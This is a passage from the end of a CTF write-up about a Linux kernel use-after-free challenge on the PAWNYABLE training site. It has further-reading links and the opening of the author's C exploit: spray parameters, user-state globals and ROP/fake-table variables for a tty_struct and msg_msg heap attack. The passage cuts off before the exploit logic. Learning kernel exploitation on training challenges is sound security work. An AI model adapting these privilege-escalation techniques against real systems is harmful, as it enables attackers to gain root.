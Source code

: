 Finally, there was the patching of the clean-up-related function pointers in `tty->ops`.

## Further Reading

There are lots of challenges besides the UAF one on PAWNYABLE, please go check them out. One of the primary reasons I wrote this was to get the author's project more visitors and beneficiaries. It has made a big difference for me and in the almost month since I finished this challenge, I have learned a ton. Special thanks to [@chompie1337](https://twitter.com/chompie1337) for letting me complain and giving me helpful advice/resources. 

Some awesome blogposts I read throughout the learning process up to this point include:

- https://www.graplsecurity.com/post/iou-ring-exploiting-the-linux-kernel
- https://a13xp0p0v.github.io/2021/02/09/CVE-2021-26708.html
- https://ruia-ruia.github.io/2022/08/05/CVE-2022-29582-io-uring/
- https://google.github.io/security-research/pocs/linux/cve-2021-22555/writeup.html

## Exploit Code

```c
// One liner to add exploit to filesystem
// gcc exploit.c -o exploit -static && cp exploit rootfs && cd rootfs && find . -print0 | cpio -o --format=newc --null --owner=root > ../rootfs.cpio && cd ../

#include <stdio.h> /* printf */
#include <sys/types.h> /* open */
#include <sys/stat.h> /* open */
#include <fcntl.h> /* open */
#include <stdlib.h> /* exit */
#include <stdint.h> /* int_t's */
#include <unistd.h> /* getuid */
#include <string.h> /* memset */
#include <sys/ipc.h> /* msg_msg */ 
#include <sys/msg.h> /* msg_msg */
#include <sys/ioctl.h> /* ioctl */
#include <stdarg.h> /* va_args */
#include <stdbool.h> /* true, false */ 

#define DEV "/dev/holstein"
#define PTMX "/dev/ptmx"

#define PTMX_SPRAY (size_t)50       // Number of terminals to allocate
#define MSG_SPRAY (size_t)32        // Number of msg_msg's per queue
#define NUM_QUEUE (size_t)4         // Number of msg queues
#define MSG_SZ (size_t)512          // Size of each msg_msg, modulo 8 == 0
#define GBUF_SZ (size_t)0x400       // Size of g_buf in driver

// User state globals
uint64_t user_cs;
uint64_t user_ss;
uint64_t user_rflags;
uint64_t user_sp;

// Mutable globals, when in Rome
uint64_t base;
uint64_t rop_addr;
uint64_t fake_table;
uint64_t ioctl_ptr;
int open_ptmx[PTMX_SPRAY] = { 0 };          // Store fds for clean up/ioctl()
int num_ptmx = 0;                           // Number of open fds
int msg_queue[NUM_QUEUE] = { 0 };           // Initialized message queues
int num_queue = 0;

// Misc constants. 
```